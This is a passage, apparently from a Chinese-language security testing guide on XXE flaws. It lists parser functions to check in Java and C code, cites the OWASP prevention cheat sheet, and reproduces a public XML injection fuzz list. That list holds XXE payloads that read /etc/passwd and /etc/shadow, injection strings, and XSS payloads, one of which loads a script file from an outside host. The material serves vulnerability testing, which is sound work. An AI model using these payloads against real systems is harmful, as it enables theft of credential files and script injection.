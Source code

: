 - DocumentBuilderFactoryImpl
- SAXTransformerFactory
- DocumentBuilderFactoryImpl
- XMLReader
- Xerces: DOMParser, DOMParserImpl, SAXParser, XMLParser

检查源代码是否将docType，外部DTD和外部参数实体设置为禁止使用。具体可查看[XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)。

此外，版本低于3.10.1的Java POI officer reader 可能存在XXE漏洞。

POI库的版本可以从JAR文件名中识别，例如：poi-3.8.jar，poi-ooxml-3.8.jar

下列源代码关键词可用于C语言下的XXE漏洞发现：
```libxml2: xmlCtxtReadMemory,xmlCtxtUseOptions,xmlParseInNodeContext,xmlReadDoc,xmlReadFd,xmlReadFile ,xmlReadIO,xmlReadMemory, xmlCtxtReadDoc ,xmlCtxtReadFd,xmlCtxtReadFile,xmlCtxtReadIO```

```libxerces-c: XercesDOMParser, SAXParser, SAX2XMLReader```

### tools

[xml injection fuzz strings](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/XML.txt),内容如下：

```xml
count(/child::node())
x' or name()='username' or 'x'='y
<name>','')); phpinfo(); exit;/*</name>
<![CDATA[<script>var n=0;while(true){n++;}</script>]]>
<![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/passwd">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/shadow">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////dev/random">]><foo>&xxe;</foo>
<xml ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:alert('XSS');">]]>
<xml ID="xss"><I><B>&lt;IMG SRC="javascript:alert('XSS')"&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<xml SRC="xsstest.xml" ID=I></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<HTML xmlns:xss><?import namespace="xss" implementation="http://ha.ckers.org/xss.htc"><xss:xss>XSS</xss:xss></HTML>
© 2020 GitHub, Inc.
```
### 参考

- XML Injection
- Gregory Steuck, “XXE (Xml eXternal Entity) attack”
- OWASP XXE Prevention Cheat Sheet
